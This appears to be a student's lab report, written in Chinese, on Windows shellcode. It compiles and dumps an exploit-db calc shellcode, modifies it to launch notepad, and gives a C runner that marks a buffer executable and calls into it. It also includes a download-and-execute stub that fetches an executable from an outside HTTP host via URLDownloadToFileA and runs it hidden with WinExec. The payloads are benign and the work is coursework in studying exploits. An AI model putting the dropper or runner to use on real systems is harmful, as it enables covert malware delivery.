## shellcode实验


### **实验要求**

- [x] 把[链接](https://www.exploit-db.com/shellcodes/48116)中shellcode能够成功运行
- [x] 能从汇编源码编译通过并成功dump
- [x]  自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理
- [x] 修改shellcode功能为运行记事本程序notepad. exe
- [ ] (选做，难度较大)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）


### **实验过程**

**1. 把[链接](https://www.exploit-db.com/shellcodes/48116)中shellcode能够成功运行**

- 关闭数据执行保护

	

- 源文件要保存为.c文件

- 复制执行代码即可成功运行

	


**2. 能从汇编源码编译通过并成功dump**

- 将代码复制粘贴到kali中并存成win32-WinExec_Calc-Exit.asm文件

	```
	nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o
	```

- 将.asm文件编译成.o文件

	```
	for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
	```
执行结果如下




**3. 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理**




**4. 修改shellcode功能为运行记事本程序notepad. exe**

首先修改汇编源码,修改处只在`push`的地方




使用vimdiff工具观察两个.asm文件的不同



从汇编源码编译通过并成功dump




执行main函数即可
```
int main(int argc, char** argv)
{
	int (*func)();
	DWORD old_protect;
	VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &old_protect);
	func = (int(*)()) code;
	(int)(*func)();
}
```

结果如图




**5. (选做，难度较大)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）**


代码
```
#include<Windows.h>
#include<urlmon.h>

typedef int(WINAPI* MY_DOWNLOAD_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);

int main() {
	//可以加载dll，根据函数名获得函数地址


	HMODULE hurlomd = LoadLibraryA("urlmon.dll");

	//GetProcAddress之前要想获得函数要遍历导出表
	//void* function_ptr = GetProcAddress(hurlomd, "URLDownloadToFileA");//urlmon.dll不会出现在导入表里，但是可以调用
	MY_DOWNLOAD_PROC function_ptr = (MY_DOWNLOAD_PROC)GetProcAddress(hurlomd, "URLDownloadToFileA");

	function_ptr(NULL, "http://10.195.24.35:8000/notepad.exe", "a.exe", 0, NULL);
	WinExec("a.exe", SW_HIDE);

}
```

在本地开启http server服务



切换到Debug目录下后，点击即下载notepad.exe(功能：自动弹出记事本)



且运行上述代码后，会自动生成一个a.exe



执行结果如下



### **遇到的问题和解决方法**

1. [链接](https://www.exploit-db.com/shellcodes/48116)中shellcode程序无法正常运行，提示` error C2440: “类型强制转换”: 无法从“char [201]”转换为“int (__cdecl *)(void)”`
	- 解决：更改为.c文件即可

2. 对代码没有任何改动，但是notepad无法弹出
	- 解决：重新建立空项目与源文件就好了...不知道是怎么回事(请老师解惑QAQ)


